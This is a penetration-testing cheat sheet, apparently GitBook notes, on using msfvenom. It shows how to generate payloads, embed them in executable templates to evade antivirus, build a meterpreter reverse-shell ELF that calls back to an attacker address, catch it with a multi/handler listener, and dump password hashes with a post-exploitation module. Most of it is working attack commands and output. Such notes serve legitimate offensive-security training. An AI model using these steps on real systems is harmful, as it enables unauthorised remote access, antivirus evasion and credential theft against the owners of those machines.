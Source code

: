 # Msfvenom

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}

### General syntax

{% code overflow="wrap" %}
```sh
$ msfvenom --payload <payload> --format <format> --platform <platform> --arch <architecture> LHOST=<ATTACKER_ADDR> LPORT=<ATTACKER_LISTEN_PORT> --output <output_file>

# short form options
$ msfvenom -p <payload> -f <format> -p <platform> -a <architecture> LHOST=<ATTACKER_ADDR> LPORT=<ATTACKER_LISTEN_PORT> -o <output_file>
```
{% endcode %}

### Help menu

```bash
$ msfvenom -h
```

### List available options for module type

```bash
$ msfvenom -l payloads
$ msfvenom -l encoders
$ msfvenom -l nops
$ msfvenom -l all
```

### Payload option

```bash
$ msfvenom -p ...

# eg. 
$ msfvenom -p linux/x86/shell_reverse_tcp
```

### Format option

```bash
$ msfvenom -f ...

# eg.
$ msfvenom -f elf
$ msfvenom -f exe
 
```

_**Note**_: The output from `msfvenom` provides the shellcode (typically raw machine code) that can be executed on the target architecture, and is defined by the `-p` flag. The `-f` flag simply specifies the format for which the shellcode should be in.

Eg. **Powershell**

`[Byte[]] $buf = 0xfc,0x48,0x83,...`

Eg. **C**

`unsigned char buf[] = "\xfc\x48\x83...`

Eg. **Python**

`buf = b""`&#x20;

`buf += b"\xfc\x48\x8`

`buf += b"\...`

### Template

```sh
$ msfvenom -x ...
$ msfvenom --template ...
```

* can be used to specify a custom executable file to be used as template
* this means that the original functionality of the provided executable file will be fulfilled, but with the addition of the payload specified by an attacker
* may bypass AV, etc.

### CMD

{% code overflow="wrap" %}
```sh
$ msfvenom -p <platform> CMD="xxxx" -f <format> -o <output_file>.exe
```
{% endcode %}

Eg. Generate an x64 Windows `.exe` payload that executes a certain `powershell.exe` command (`CMD` option)

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/exec CMD="powershell.exe ..." -f exe -o <output_file>.exe
```
{% endcode %}

### Example

`linux/x86/meterpreter/reverse_tcp`

```bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.xxx.xxx LPORT=8000 -f elf > shell.elf
```

#### Module to use on the attacking machine to catch a shell

`exploit/multi/handler`

```bash
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport xxxx
msf6 exploit(multi/handler) > run
```

#### Run the shellcode on the target machine

```bash
# eg.
$ sudo ./shell.elf
```

#### Gain meterpreter shell on the attacker machine

```
meterpreter >
```

#### Using post exploitation hash dump module&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>meterpreter > background
</strong>msf6 exploit(multi/handler) > sessions -l 

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         meterpreter x86/linux  ...                    ...

msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > show options
msf6 post(linux/gather/hashdump) > set session 1
msf6 post(linux/gather/hashdump) > run
...
</code></pre>

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}
